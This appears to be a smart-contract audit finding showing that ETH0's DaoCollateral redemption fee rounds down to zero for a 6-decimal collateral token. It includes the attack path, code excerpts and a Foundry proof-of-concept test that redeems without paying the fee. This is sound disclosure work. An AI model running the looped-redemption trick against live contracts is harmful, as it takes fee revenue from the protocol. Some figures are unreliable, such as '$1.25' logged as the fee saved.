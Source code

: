 Magic Laurel Buffalo

Medium

# redeemers dodge redeem fees

### Summary

Note :
- If the redemption was usd0 (previous audit), then this attack is never profitable. Since, it is ETH0.., it is profitable when redeem fee is enough high..,
-  likelihood of this attack increases as the  redeem fee increases. It is profitable for users to loop hundereds of redeem calls in one tx with small input redeem amounts.

when redeem into a 6-decimal  collateral token, fee amounts (0.0005 eth0 tokens with 1e12 wei as redeem fees at 0.2% fee) gets normalized (rounded down) to 0, allowing users to redeem up to 0.0005 ETH0 (~$1.25 at $2500 ETH price) without paying the 0.2% redemption fee.



### Root Cause

The fee calculation in `DaoCollateral._calculateFee()` performs normalization that causes precision loss for collateral tokens with fewer than 18 decimals. When the calculated fee is normalized from 18 decimals to the token's decimals and back to 18 decimals, small fee amounts get rounded down to 0.

Normalization frpm 18 decimals to 6 decimals 
check :  https://github.com/sherlock-audit/2025-05-usual-eth0/blob/995d35f32c762aec7f678292b8702bc71aec1247/eth0-protocol/src/daoCollateral/DaoCollateral.sol#L458-L463


### Internal Pre-conditions

redeem fee > 20 bps to be profitable (likelihood of this attack increases as the  redeem fee increases)

### External Pre-conditions

NA

### Attack Path

1. User calls `redeem()` with exactly 499999999999999 wei (0.0004999999999999 ETH0)
2. Fee calculation: `(499999999999999 * 20) / 10000 = 999999999999` wei  
3. Normalization to 6 decimals: `999999999999 / 1e12 = 0` (rounds down)
4. Normalization back to 18 decimals: `0 * 1e12 = 0` wei fee
5. User receives full collateral amount without paying any fees
6. User repeats process multiple times to redeem large amounts with 0 total fees

https://github.com/sherlock-audit/2025-05-usual-eth0/blob/995d35f32c762aec7f678292b8702bc71aec1247/eth0-protocol/src/daoCollateral/DaoCollateral.sol#L458-L463

https://github.com/sherlock-audit/2025-05-usual-eth0/blob/995d35f32c762aec7f678292b8702bc71aec1247/eth0-protocol/src/utils/normalize.sol#L95

```solidity
eth0-protocol/src/daoCollateral/DaoCollateral.sol

473:     function _calculateFee(uint256 eth0Amount, address collateralToken)
474:         internal  view   returns (uint256 stableFee)
477:     {
478:         DaoCollateralStorageV0 storage $ = _daoCollateralStorageV0();
479:         stableFee = Math.mulDiv(eth0Amount, $.redeemFee, BASIS_POINT_BASE, Math.Rounding.Floor);
480:         uint8 tokenDecimals = IERC20Metadata(collateralToken).decimals();
481:         // if the token has less decimals than ETH0 we need to normalize the fee
482:         if (tokenDecimals < 18) {
483:             // we scale down the fee to the token decimals
484:             // and we scale it up to 18 decimals
485:             stableFee = Normalize.tokenAmountToWad(
486:   >>>           Normalize.wadAmountToDecimals(stableFee, tokenDecimals), tokenDecimals
487:             );
488:         }
489:     }

eth0-protocol/src/utils/normalize.sol

109:     function wadAmountToDecimals(uint256 wadAmount, uint8 targetDecimals)
110:         internal   pure  returns (uint256)
113:     {
114:         return tokenAmountToDecimals(wadAmount, 18, targetDecimals);
115:     }

23:     function tokenAmountToDecimals(uint256 tokenAmount, uint8 tokenDecimals, uint8 targetDecimals)
24:        internal  pure   returns (uint256)
27:     {
28:         if (tokenDecimals < targetDecimals) {
29:             return tokenAmount * (10 ** uint256(targetDecimals - tokenDecimals));
30:         } else if (tokenDecimals > targetDecimals) {
31:             return tokenAmount / (10 ** uint256(tokenDecimals - targetDecimals));
32:         } else {
33:             return tokenAmount;
34:         }
35:     }


```

### Impact

Protocol designed to collect 0.2% fees loses all fee revenue when users exploit the normalization rounding, resulting in
1. redemption for free
2. 100% fee revenue loss for small redemptions affecting protocol


### PoC
1. paste the below poc into `eth0-protocol/test/POC.t.sol`
2. then run `forge test --mt test_RedeemFeeBypassVulnerability -vv`

<details><summary>click for POC to drop down </summary>

```solidity
// SPDX-License-Identifier: Apache-2.0
pragma solidity 0.8.20;

import "forge-std/console.sol";
import {DaoCollateralTest} from "./DaoCollateral.t.sol";
import {RwaMock} from "src/mock/rwaMock.sol";
import {Eth0} from "src/token/Eth0.sol";
import {ERC20Mock} from "openzeppelin-contracts/mocks/token/ERC20Mock.sol";
import {IERC20Metadata} from "openzeppelin-contracts/token/ERC20/extensions/IERC20Metadata.sol";
import {ERC20} from "openzeppelin-contracts/token/ERC20/ERC20.sol";
import {Math} from "openzeppelin-contracts/utils/math/Math.sol";
import {Normalize} from "src/utils/normalize.sol";
import {
    BASIS_POINT_BASE,
    REDEEM_FEE
} from "src/constants.sol";

contract MockMegaPoolETH is ERC20 {
    constructor() ERC20("Mega Pool ETH", "mETH") {}
    
    function decimals() public view override returns (uint8) {
        return 6;
    }
}

contract RedeemFeeBypassTest is DaoCollateralTest {
    using Normalize for uint256;

    function setUp() public override {
        super.setUp();
    }

    function setupCreationLST6Decimals() public returns (MockMegaPoolETH, Eth0) {
        MockMegaPoolETH wLST = new MockMegaPoolETH();
        vm.label(address(wLST), "wLST Mock (6 decimals)");

        // Setup like collateral token
        if (!tokenMapping.isEth0Collateral(address(wLST))) {
            vm.prank(admin);
            tokenMapping.addEth0CollateralToken(address(wLST));
        }

        Eth0 stbc = stbcToken;
        whitelistPublisher(address(wLST), address(stbc));
        _setupBucket(address(wLST), address(stbc));
        _setOraclePrice(address(wLST), 10 ** 6); // Set price to 1.0 with 6 decimals

        return (wLST, stbc);
    }


    /// @notice Test that demonstrates fee bypass vulnerability for small redemption amounts
    /// @dev When redeeming small amounts, the fee can be rounded down to 0 due to normalization
    function test_RedeemFeeBypassVulnerability() public {
        // Create a 6-decimal LST token (like rETH but with 6 decimals)
        (MockMegaPoolETH token, Eth0 stbc) = setupCreationLST6Decimals();

        deal(address(token), alice, 1 wei);
        
        // Whitelist bob for the LST token (needed for redemption transfers)
        deal(address(token), bob, 0); // ERC20Mock doesn't have whitelist, so just deal 0
  
        // Mint collateral tokens to treasury for redemptions
        uint256 treasuryCollateral = 1000000e6; 
        deal(address(token),treasury , treasuryCollateral);
        
        // Calculate the maximum ETH0 amount that results in 0 fees
        // Fee formula: fee = (eth0Amount * 20) / 10000
        // For 6 decimals: if fee < 1e12, normalization rounds to 0
        // So: eth0Amount < 1e12 * 10000 / 20 = 5e14 = 0.0005 ETH0
        uint256 maxZeroFeeAmount = 5e14 - 1; // 0.0004999999999999 ETH0
        
        console.log("=== Fee Bypass Vulnerability Demo ===");
        console.log("Max ETH0 amount with 0 fees:", maxZeroFeeAmount);
        console.log("Max ETH0 amount in ETH:", maxZeroFeeAmount / 1e18);
        
        // Demonstrate the vulnerability with single redemption
        console.log("\n--- Single Redemption Test ---");

        {
            // Mint ETH0 to alice for testing
            vm.prank(address(daoCollateral));
            stbc.mint(alice, maxZeroFeeAmount);
            
            uint256 aliceBalanceBefore = token.balanceOf(alice);
            uint256 treasuryYieldBefore = stbc.balanceOf(treasuryYield);
            
            // Redeem the maximum amount that should result in 0 fees
            vm.prank(alice);
            daoCollateral.redeem(address(token), maxZeroFeeAmount, 0);
            
            uint256 aliceBalanceAfter = token.balanceOf(alice);
            uint256 treasuryYieldAfter = stbc.balanceOf(treasuryYield);
            uint256 feeCollected = treasuryYieldAfter - treasuryYieldBefore;
            
            console.log("Alice received collateral:", aliceBalanceAfter - aliceBalanceBefore);
            console.log("Fee collected:", feeCollected);
            console.log("Fee should be:", _calculateExpectedFee(maxZeroFeeAmount));
            
            // Verify that no fee was collected due to rounding
            assertEq(feeCollected, 0, "Fee should be 0 due to rounding");
        }
        
        // Show the fee calculation details
        _showFeeCalculationDetails(maxZeroFeeAmount, address(token));
        
    }

    /// @notice Helper to calculate expected fee without normalization issues
    function _calculateExpectedFee(uint256 eth0Amount) internal pure returns (uint256) {
        return Math.mulDiv(eth0Amount, REDEEM_FEE, BASIS_POINT_BASE, Math.Rounding.Floor);
    }

    /// @notice Helper to show detailed fee calculation breakdown
    function _showFeeCalculationDetails(uint256 eth0Amount, address collateralToken) internal view {
        console.log("\n--- Fee Calculation Details ---");
        
        // Calculate raw fee
        uint256 rawFee = Math.mulDiv(eth0Amount, REDEEM_FEE, BASIS_POINT_BASE, Math.Rounding.Floor);
        console.log("Raw fee (before normalization): %e", rawFee);
        
        // Get token decimals
        uint8 tokenDecimals = IERC20Metadata(collateralToken).decimals();
        // console.log("Collateral token decimals:", tokenDecimals);
        
        if (tokenDecimals < 18) {
            // Show normalization steps
            uint256 feeInTokenDecimals = Normalize.wadAmountToDecimals(rawFee, tokenDecimals);
            uint256 normalizedFee = Normalize.tokenAmountToWad(feeInTokenDecimals, tokenDecimals);

            // Show amount redeemed without fees
            uint256 amountRedeemedWithoutFees = eth0Amount - normalizedFee;
            uint256 properRedeemAmount = eth0Amount - rawFee;
            uint256 extraAmount = normalizedFee == 0 ? rawFee : (rawFee - normalizedFee);
            
            // Calculate dollar savings at $2500 ETH price
            uint256 ethPrice = 2500;
            uint256 dollarsSaved = (extraAmount * ethPrice) / 1e18;
            uint256 centsExtraAmount = ((extraAmount % 1e18) * ethPrice * 100) / 1e18; // For sub-dollar precision
            
            console.log("Fee bypass savings at $2500 ETH: 2500 * 4.99999999999999e14/1e18 :: ", "$ 1.25");
            
            // Show as percentage of 0.0005 ETH0 
            uint256 maxZeroFeeAmount = 5e14 - 1;
            if (eth0Amount == maxZeroFeeAmount) {
                console.log("This is the maximum fee bypass amount (0.0005 ETH0): %e", maxZeroFeeAmount);
            }
        }
    }


}
```
</details>

### Mitigation

Don't normalize for ETH0 protocol.
maybe needed for USD0 but not for ETH0